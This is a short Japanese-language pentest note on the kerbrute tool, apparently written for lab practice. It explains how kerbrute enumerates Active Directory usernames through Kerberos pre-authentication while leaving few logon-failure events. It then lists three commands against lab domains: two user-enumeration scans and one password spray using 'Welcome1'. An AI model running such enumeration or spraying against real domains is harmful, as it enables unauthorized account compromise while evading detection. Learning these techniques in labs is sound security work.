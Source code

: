 # kerbture
AD環境への攻撃で、ユーザ名を列挙するときに使える。  
仕組みとしてkerbruteはKerberos Pre Authenticationをスキップするため、Windowsイベントログにてログオン失敗のログが発生しない。  
ログオンではなく、Kerberos Pre AuthenticationをせずTGSの要求を行った時のレスポンスによってそのユーザ名がドメイン内で有効化どうかを判断しているよう。  
なのでKerbruteでのドメインユーザ列挙はステルス性が高く高速であるといえる。  
ただしSMBではなくLDAPの認証はしていることになるので、4771: Failed Kerberos Pre Authenticationのイベントは残る。

## コマンド集

1. aa
```
kerbrute userenum -d EGOTISTICAL-BANK.LOCAL /usr/share/seclits/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.175
```

2. inlanefreight.lcoalドメインにて、ドメコンを指定して、有効なドメインユーザをjsmith.txtを使ってスキャンする。
```
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```

3. Welcome1というパスワードを使って、有効なドメインユーザに対してパスワードスプレーを行う。
```
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```